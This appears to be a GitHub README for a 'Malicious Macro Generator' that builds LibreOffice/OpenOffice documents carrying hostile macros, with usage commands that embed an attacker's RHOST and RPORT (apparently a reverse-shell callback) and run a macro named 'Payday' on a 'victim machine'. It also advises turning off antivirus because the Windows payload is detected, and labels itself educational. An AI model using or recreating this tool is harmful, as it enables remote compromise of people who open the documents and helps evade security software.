

# Malicious Macro Generator LibreOffice/OpenOffice
`.odt` Writer Document  
`.ods` Calc Spreadsheet    
`.odb` Base Database  
`.odp` Impress Presentation  
`.odg` Draw Drawing  

# Malicious Macro Executor LibreOffice/OpenOffice

> Python Package: uno (Universal Network Objects) is typically associated with macro programming and automation tasks for LibreOffice or OpenOffice. It is an API (Application Programming Interface) provided by LibreOffice and OpenOffice that allows the use of various programming languages, including Python, to control the functionalities of these office suites.
>
> If you want to use the uno library in Python, you generally do not need to install it separately, as it should come bundled with the installation of LibreOffice or OpenOffice. However, you must ensure that the version of Python you are using is compatible with the version of Python that comes with LibreOffice or OpenOffice.

Usage:

```console
# Local mahine: generate file.ods
$ python3 mmg-ods.py linux $RHOST $RPORT

# Victim machine:
$ export file_path=./file.ods; export library_name=Standard; export module_name=Module1; export macro_name=Payday
$ python3 exp.py --file $file_path -H localhost -P 2002 \
                 --library $library_name --module $module_name --macro $macro_name
```



### Note:

This script was created for educational purposes only.  
Macros should be enabled in LibreOffice/OpenOffice.  
Windows payload is already detected, turn off your AV if you experiment some detection trouble.  
